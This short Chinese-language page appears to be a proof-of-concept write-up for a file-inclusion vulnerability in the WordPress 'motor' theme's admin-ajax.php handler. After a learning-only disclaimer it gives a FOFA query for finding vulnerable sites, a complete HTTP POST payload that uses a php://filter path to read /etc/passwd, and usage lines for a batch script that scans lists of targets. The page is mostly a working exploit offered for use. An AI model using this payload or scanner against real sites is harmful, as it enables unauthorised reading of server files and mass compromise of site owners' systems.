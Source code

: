 # wordpress admin-ajax.php文件包含漏洞

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

fofa语法

body="wp-content/themes/motor""

POC:

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: multipart/form-data;boundary=--------1699260943
Content-Length: 250

----------1699260943Content-Disposition: form-data; name="action"motor_load_more----------1699260943
Content-Disposition: form-data;name="file"

php://filter/resource=/etc/passwd#这里整不整编码看你，text找匹配内容
----------1699260943--
```





批量poc(记得安装库)

python poc.py -u 



python poc.py -f  .txt

